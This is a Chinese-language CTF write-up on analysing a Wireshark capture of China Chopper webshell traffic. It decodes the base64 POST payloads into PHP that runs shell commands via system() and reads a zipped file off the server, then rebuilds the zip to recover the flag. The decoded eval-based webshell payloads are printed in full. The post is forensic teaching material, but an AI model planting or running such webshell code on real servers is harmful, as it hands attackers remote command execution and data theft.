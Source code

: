 ```yaml
---
layout: post
title: 流量分析简记
date: 2021-07-22 15:49 +0800
last_modified_at: 2021-07-22 15:49:00 +0800
tags: [CTF,Web,Write-up]
toc:  true
---
```


### ——记一次CTF中的流量分析

源于学院内ctf训练营期末考试原题

首先拿到一个zip内部仅有wireshark抓包文件，打开后查看抓包文件如下图

![image-20210722133338551](https://raw.githubusercontent.com/Heart-1ess/Heart_1ess-s-CTF-Note/master/blogs/assets/Analyze1.png)

由于题目提示为菜刀连接的特征，因而寻找POST请求发现如下图

![image-20210722133612415](https://raw.githubusercontent.com/Heart-1ess/Heart_1ess-s-CTF-Note/master/blogs/assets/Analyze2.png)

可以看到有两个包长度与其他包不同，则对于长度不同的两个包分别分析，首先是第一个包体（截取关键字段）：

![image-20210722133825706](https://raw.githubusercontent.com/Heart-1ess/Heart_1ess-s-CTF-Note/master/blogs/assets/Analyze3.png)

```
Form item: "cmd" = "@eval(base64_decode($_POST[z0]));"
Form item: "z0" = "QGluaV9zZXQoImRpc3BsYXlfZXJyb3JzIiwiMCIpO0BzZXRfdGltZV9saW1pdCgwKTtAc2V0X21hZ2ljX3F1b3Rlc19ydW50aW1lKDApO2VjaG8oIi0+fCIpOzskcD1iYXNlNjRfZGVjb2RlKCRfUE9TVFsiejEiXSk7JHM9YmFzZTY0X2RlY29kZSgkX1BPU1RbInoyIl0pOyRkPWRpcm5hbWUoJF9TRVJWRVJbIlNDUklQVF9GSUxFTkFNRSJdKTskYz1zdWJzdHIoJGQsMCwxKT09Ii8iPyItYyAneyRzfSciOiIvYyB7JHN9Ijskcj0ieyRwfSB7JGN9IjtAc3lzdGVtKCRyLiIgMj4mMSIpOztlY2hvKCJ8PC0iKTtkaWUoKTs="
Form item: "z1" = "L2Jpbi9zaA=="
Form item: "z2" = "Y2QgIi92YXIvd3d3L2h0bWwvdXBsb2FkLyI7emlwIC1QIGluZGV4cGhwIGZpbGUgdGVzdC5wbmcgcmVhZG1lO2VjaG8gW1NdO3B3ZDtlY2hvIFtFXQ=="
```

可以看出`z0`、`z1`、`z2`三个均为base64加密过的一些数据，对其分别进行解密可得：

```
z0 = 
@ini_set("display_errors","0");
@set_time_limit(0);
@set_magic_quotes_runtime(0);
echo("->|");
;
$p=base64_decode($_POST["z1"]);
$s=base64_decode($_POST["z2"]);
$d=dirname($_SERVER["SCRIPT_FILENAME"]);
$c=substr($d,0,1)=="/"?"-c '{$s}'":"/c {$s}";$r="{$p} {$c}";
@system($r." 2>&1");;echo("|<-");die();

z1 = /bin/sh

z2 = cd "/var/www/html/upload/";zip -P indexphp file test.png readme;echo [S];pwd;echo [E]
```

不难看出，`z0`内部定义了`$p`和`$s`，值分别为`z1`和`z2`。`$c`的意图为检验首位是否为`/`，即判断是否绝对地址，若非绝对地址则`$c`开头为`/c`，并没有查到`/bin/sh /c`有什么用，而且在shell内部也报错。初步判断该段指令为将`/var/www/html`内的`readme`和`test.png`压缩成`file.zip`且密码为indexphp。

接下来分析第二个特殊长度的包体：

```
Form item: "cmd" = "@eval(base64_decode($_POST[z0]));"
Form item: "z0" = "QGluaV9zZXQoImRpc3BsYXlfZXJyb3JzIiwiMCIpO0BzZXRfdGltZV9saW1pdCgwKTtAc2V0X21hZ2ljX3F1b3Rlc19ydW50aW1lKDApO2VjaG8oIi0+fCIpOzskRj1nZXRfbWFnaWNfcXVvdGVzX2dwYygpP3N0cmlwc2xhc2hlcygkX1BPU1RbInoxIl0pOiRfUE9TVFsiejEiXTskZnA9QGZvcGVuKCRGLCJyIik7aWYoQGZnZXRjKCRmcCkpe0BmY2xvc2UoJGZwKTtAcmVhZGZpbGUoJEYpO31lbHNle2VjaG8oIkVSUk9SOi8vIENhbiBOb3QgUmVhZCIpO307ZWNobygifDwtIik7ZGllKCk7"
Form item: "z1" = "/var/www/html/upload/file.zip"
```

进行base64解码后可得：

```
z0 = 
@ini_set("display_errors","0");
@set_time_limit(0);
@set_magic_quotes_runtime(0);
echo("->|");
;
$F=get_magic_quotes_gpc()?stripslashes($_POST["z1"]):$_POST["z1"];$fp=@fopen($F,"r");
if(@fgetc($fp)){
	@fclose($fp);
	@readfile($F);
}
else{
	echo("ERROR:// Can Not Read");
}
;
echo("|<-");
die();

z1 = "/var/www/html/upload/file.zip"
```

不难看出第二个包体的内容是读取`file.zip`，因而通过追踪该http包的http流可得到`file.zip`的二进制内容，通过winhex组装后得到最终的`file.zip`包体。解压后发现readme中的flag。

* ### 小结

  在流量分析中读取以及上传的文件内容都会被流量所记录，因而流量分析中可以通过字节流进行组装从而完成重要文件的还原。
